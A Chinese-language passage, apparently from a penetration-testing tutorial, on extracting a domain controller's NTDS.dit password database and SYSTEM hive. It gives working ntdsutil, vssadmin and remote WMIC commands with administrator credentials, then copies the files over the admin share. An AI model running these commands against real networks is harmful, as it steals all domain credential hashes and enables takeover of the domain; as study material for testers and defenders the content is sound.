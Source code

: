 **注：**此处因其介绍的如下方法本身都需要提权后才可进行操作，故笔者部分操作直接在域控上进行操作，望见谅。

### \*\*\*\*[**使用NTDSUtil的Create IFM在DC上本地捕获ntds.dit文件**](https://adsecurity.org/?p=2398#CreateIFM)\*\*\*\*

笔者在第一次使用该方法时，大家将其称为给域控拍一个快照。

NTDSUtil是一个命令实用程序，用于域控制器处理AD DB \(ntdd .dit\)，并支持为DCPromo创建IFM设置。IFM与DCPromo一起用于“从媒体安装”，因此要升级的服务器不需要通过网络从另一个DC复制域数据。

```text
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

IFM集是在以下屏幕截图中c:\temp中创建的NTDS.dit数据库的副本。创建IFM时，将捕获并安装VSS快照，并将ntds.dit文件和关联的数据从其中复制到指定的目标文件夹中。

**我们也可以通过WMI或PowerShell远程执行此命令。**

![](https://img-blog.csdnimg.cn/20201003233655845.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

### \*\*\*\*[**使用VSS卷影副本远程拉ntds.dit**](https://adsecurity.org/?p=2398#WMIVSS)\*\*\*\*

利用WMIC（或PowerShell远程处理）创建（或复制现有）VSS

```text
wmic  /node:10.80.0.10 /user:Administrator /password:****** process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > c:\vss.log"
```

![](https://img-blog.csdnimg.cn/20201004000746469.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20201004001819939.png)

VSS快照完成后，我们然后将NTDS.dit文件和系统注册表配置单元从VSS复制到DC上的c：驱动器。

```text
wmic /node:10.80.0.10 /user:Administrator /password:***** process call create "cmd /c copy   卷影名\Windows\NTDS\NTDS.dit C:\windows\temp\NTDS.dit 2>&1 > C:\vss2.log"
```

![](https://img-blog.csdnimg.cn/20201004002333995.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20201004002434948.png)

```text
wmic /node:10.80.0.10 /user:Administrator /password:*****  process call create "cmd /c copy 卷影名\Windows\System32\config\SYSTEM c:\windows\temp\SYSTEM.hive 2>&1 > C:\vss3.log"
```

![](https://img-blog.csdnimg.cn/20201004002614304.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20201004002624820.png)

我们将文件复制到本地计算机。

```text
copy \\10.80.0.10\c$\windows\temp\NTDS.dit c:\NTDS.ditcopy \\10.80.0.10\c$\windows\temp\SYSTEM.hive c:\SYSTEM.hive
```
